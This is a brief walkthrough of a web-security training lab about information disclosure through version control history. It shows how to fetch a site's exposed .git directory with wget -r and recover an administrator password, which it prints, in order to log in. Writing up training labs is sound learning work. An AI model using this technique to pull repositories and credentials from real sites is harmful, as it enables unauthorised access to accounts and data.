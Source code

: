 # Information disclosure in version control history

## This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

---

### step 1

https://0aab008103217307c20cd55f009d0052.web-security-academy.net/
add /.git to see git file
https://0aab008103217307c20cd55f009d0052.web-security-academy.net/.git

![screenshot](images/lab_git_file.jpg)

### step2

download .git file from website

wget -r https://0aab008103217307c20cd55f009d0052.web-security-academy.net/.git/

![screenshot](images/lab5_git_steps.jpg)

ADMIN_PASSWORD=3wzqgtccfg31bt4zaoiu

try admin or administrator as user name
and password: 3wzqgtccfg31bt4zaoiu
